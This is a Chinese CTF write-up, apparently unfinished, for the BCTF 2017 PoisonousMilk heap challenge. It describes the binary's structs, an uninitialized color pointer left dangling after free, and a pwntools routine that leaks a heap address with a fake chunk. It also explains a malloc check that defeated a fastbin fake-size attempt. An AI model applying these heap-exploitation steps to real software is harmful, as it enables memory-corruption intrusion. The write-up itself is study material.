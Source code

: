 
## Struct

通过逆向和调试可以比较清楚的理解程序中相关的结构，因为没找到好的画图软件，所以贴上dalao的一个图orz<br>
![Struct](pmilk_diagram.png)

同时附上链接<br>
(usf poisonous_milk)[http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html]


## Vuln


![vuln0](vuln0.png)
对结构中的color指针进行赋值<br>
但是如果我什么都不输入，这里就不会对color指针赋值，那么我只要先申请1个堆<br>
另外一个是drink函数，可以对其进行利用。<br>

```c++
+0   str_xxxx0xxxxxx
+8   ???????----size
+16  color_p0---str_p0
```

接着释放它，由于程序中先释放字符串对应的堆，然后释放指针相关的，所以释放完之后，color处对应就有指向堆的指针heap_fkp0<br>
再申请0，并且输入color table中不存在的元素，使得color处的值不变(不赋值，此时就是heap_fkp0)<br>
而heap_fkp0正好指向的地方存了堆相关的指针<br>
下面只要通过查看该结构信息即可获取堆的地址<br>


```python
def s_leak():
    put_milk("a"*0x08+"\n", "red")
    remove_milk(0)
    fake_chunk0 = p64(0x91).ljust(0x44, 'c') + '\n'
    put_milk(fake_chunk0, "none")
    view_milk()
    io.recvuntil("[0] [")
    lk_heap_addr = u64((io.recvuntil("]")[:-1].ljust(8, chr(0)))) - 0x78
    log.info("heap address: "+hex(lk_heap_addr))
```

## exp

### 模仿babyuse
参考 [uafio](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)<br>
在和babyuse一样尝试之后，利用0x55作为伪size，但是在实际运行之后，在malloc中出问题了，分析了一下。

```assembly
.text:000000000008361B                 test    al, 4
.text:000000000008361D                 lea     rcx, dword_3C3B20
.text:0000000000083624                 jz      short loc_83633
.text:0000000000083626                 lea     rax, [rdx-10h]
.text:000000000008362A                 and     rax, 0FFFFFFFFFC000000h
.text:0000000000083630                 mov     rcx, [rax]
```
发现malloc会堆fastbin的地址检查，要是在**0FFFFFFFFFC000000h**之外，这里就会出错。orz

### house of orange

新姿势

### 另外

新姿势

## Reference

1. http://brieflyx.me/2017/ctf-writeups/bctf-2017-2pwn/
2. https://www.xctf.org.cn/information/4603ec7f0031408acca073b80edb63744f92bacb/
